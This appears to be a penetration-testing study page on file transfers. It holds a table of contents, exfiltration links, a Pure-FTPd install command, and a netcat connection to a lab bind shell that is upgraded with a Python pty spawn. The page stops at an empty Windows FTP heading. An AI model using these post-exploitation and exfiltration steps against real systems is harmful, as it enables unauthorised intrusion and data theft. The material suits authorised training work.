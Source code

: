 # File Transfers
## Table of Contents
- [Exfiltration](#exfiltration)
- [Preparation](#preparation)
  - [Installing Pure-FTPd](#installing-pure-ftpd)
  - [Upgrading a Non-Interactive Shell](#upgrading-a-non-interactive-shell)
- [Transferring Files with Windows Hosts](#transferring-files-with-windows-hosts)
  - [Non-Interactive FTP Download](#non-interactive-ftp-download)
  - [Windows Downloads Using Scripting Languages](#windows-downloads-using-scripting-languages)
  - [Windows Downloads with exe2hex and PowerShell](#windows-downloads-with-exe2hex-and-powershell)
  - [Windows Uploads Using Windows Scripting Languages](#windows-uploads-using-windows-scripting-languages)
  - [Uploading Files with TFTP](#uploading-files-with-tftp)
  - [Downloading Files with Certutil](#downloading-files-with-certutil)
  - [Download and Upload using SMB](#download-and-upload-using-smb)
- [FTP Tutorial](#ftp-tutorial)

## Exfiltration
- https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration#scp

Note: If FTP and nc will not work try with [/dev/tcp](https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration#dev-tcp)
## Preparation
### Installing Pure-FTPd
Installing Pure-FTP on Kali
```sh
kali@kali:~$ sudo apt update && sudo apt install pure-ftpd
```
Before any clients can connect to our FTP server, we need to [create a new user for Pure-FTPd](#file-setup-ftp-sh). 

### Upgrading a Non-Interactive Shell
Most Netcat-like tools provide a non-interactive shell, which means that programs that require user input such as many file transfer programs or su and sudo tend to work poorly, if at all. Non-interactive shells also lack useful features like tab completion and job control. 

Upgrading our shell with Python w/ `python -c 'import pty; pty.spawn("/bin/bash")'`:
```sh
kali@kali:~$ nc -vn 10.11.0.128 4444
(UNKNOWN) [10.11.0.128] 4444 (?) open
python -c 'import pty; pty.spawn("/bin/bash")'
student@debian:~$
```

Ref: [How to Get a Fully Interactive Shell](https://gist.github.com/A-Pisani/66049cd20ab56e1d5b4a3870a14ed5af#how-to-get-a-fully-interactive-shell)
## Transferring Files with Windows Hosts
Disclaimer: This section assumes a victim WIndows machine was compromised and we have a bind shell in our Kali attacker machine.
### Non-Interactive FTP Download
